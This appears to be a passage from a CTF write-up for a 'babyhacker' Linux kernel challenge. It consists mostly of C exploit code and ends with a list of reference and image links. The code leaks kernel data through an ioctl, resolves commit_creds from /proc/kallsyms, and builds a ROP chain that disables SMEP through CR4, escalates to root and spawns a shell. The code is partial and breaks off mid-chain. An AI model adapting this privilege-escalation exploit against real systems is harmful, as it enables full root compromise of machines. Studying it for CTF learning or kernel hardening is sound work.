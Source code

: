 ```C

#define GETSIZE 0x30000
#define KFU 0x30001
#define KTU 0x30002

unsigned long get_symbol(char *name)
{
    FILE *f;
    unsigned long addr;
    char dummy, sym[512];
    int ret = 0;

    f = fopen("/proc/kallsyms", "r");
    if (!f) {
        return 0;
    }

    while (ret != EOF) {
        ret = fscanf(f, "%p %c %s\n", (void **) &addr, &dummy, sym);
        if (ret == 0) {
            fscanf(f, "%s\n", sym);
            continue;
        }
        if (!strcmp(name, sym)) {
            fclose(f);
            return addr;
        }
    }
    fclose(f);
    return 0;
}

int main() {
	save_state();
    
    int fd = open("/dev/babyhacker", 0);

    ioctl(fd, GETSIZE, 0xffffffff);
    void *buf = mmap(NULL, 0x10000, 7, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    printf("buf: %p\n", buf);
    ioctl(fd, KTU, buf);
    
    commit_creds = get_symbol("commit_creds");
    prepare_kernel_cred = get_symbol("prepare_kernel_cred");
	vmlinux_base = commit_creds - 0xa1430;
    unsigned long offset = vmlinux_base - raw_vmlinux_base;
    
    
	void *us_stack = mmap((void*)MMAP_BASE, MMAP_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANON | MAP_FIXED, -1, 0);
	
    unsigned long  rop[0x100] = {0};
	int i = 0;
	rop[i++] = 0xffffffff8109054d + offset; // pop rdi; ret
	rop[i++] = 0x6f0;
	rop[i++] = 0xffffffff81004d70 + offset; //mov cr4, rdi ; pop rbp ; ret
    rop[i++] = user_sp;
	rop[i++] = (unsigned long)get_root;
	rop[i++] = 0xffffffff810636b4 + offset; // swapgs; pop rbp; ret
	rop[i++] = user_sp;
	rop[i++] = 0xffffffff814712fe + offset; // iretq; 
	rop[i++] = (unsigned long)get_shell;
	rop[i++] = user_cs;
```

  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png